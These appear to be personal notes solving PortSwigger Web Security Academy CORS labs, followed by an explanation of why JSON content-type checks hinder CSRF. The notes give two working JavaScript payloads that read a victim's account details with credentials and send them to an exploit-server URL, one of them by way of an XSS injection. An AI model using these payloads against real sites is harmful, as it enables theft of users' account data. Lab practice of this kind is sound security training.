 The exploit :

```javascript
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" srcdoc="<script> 
var req = new XMLHttpRequest(); 
req.onload = reqListener; 
req.open('get','https://0ac3004d03ed6b0b809f129a009700dd.web-security-academy.net/accountDetails',true); req.withCredentials = true; 
req.send(); 
function reqListener() { 
	location='https://exploit-0a7f006103366bbe80e311b3015d00cf.exploit-server.net/log?key='+encodeURIComponent(this.responseText); 
	}; 
</script>"></iframe>
```


----

#### CORS vulnerability with trusted insecure protocols


```javascript
<script>
    document.location="http://stock.0aa100ae044437678080356900e4006c.web-security-academy.net/?productId=<script>var req = new XMLHttpRequest(); req.onload = reqListener; req.open('get','https://0aa100ae044437678080356900e4006c.web-security-academy.net/accountDetails',true); req.withCredentials = true;req.send();function reqListener() {location='https://exploit-0ae4002b04273787803334e101b600f0.exploit-server.net/log?key='%2bthis.responseText; };%3c/script>&storeId=1"
</script>
```




----

# Interesting side notes

The statement you provided highlights a key aspect of security related to `POST` requests with a `Content-Type` of `application/json`. Let’s break down why such requests are generally secure against Cross-Site Request Forgery (CSRF) attacks when the `Content-Type` is validated:

### Understanding CSRF Attacks

**Cross-Site Request Forgery (CSRF)** is an attack where a malicious website tricks a user’s browser into making a request to another site where the user is authenticated. For example, if a user is logged into a bank account and visits a malicious website, that site might try to make a transfer request on behalf of the user.

### Why `application/json` Requests Are More Secure Against CSRF

1. **Content-Type Checking**:
   - **CSRF Prevention**: CSRF attacks rely on tricking the victim’s browser into making requests that include authentication cookies or tokens. Most modern web applications use some form of CSRF protection, such as requiring a CSRF token to be included in state-changing requests. This token is usually sent as part of the request body or headers and must match what the server expects.
   - **JSON Requests**: When a request uses the `Content-Type: application/json`, the request body is typically in JSON format. Many servers validate the `Content-Type` header to ensure that only requests with the correct content type (e.g., `application/json`) are processed for specific actions. If an attacker’s site tries to send a request to another site with a different content type, such as `application/x-www-form-urlencoded` or `multipart/form-data`, the server will reject the request due to mismatched content type.
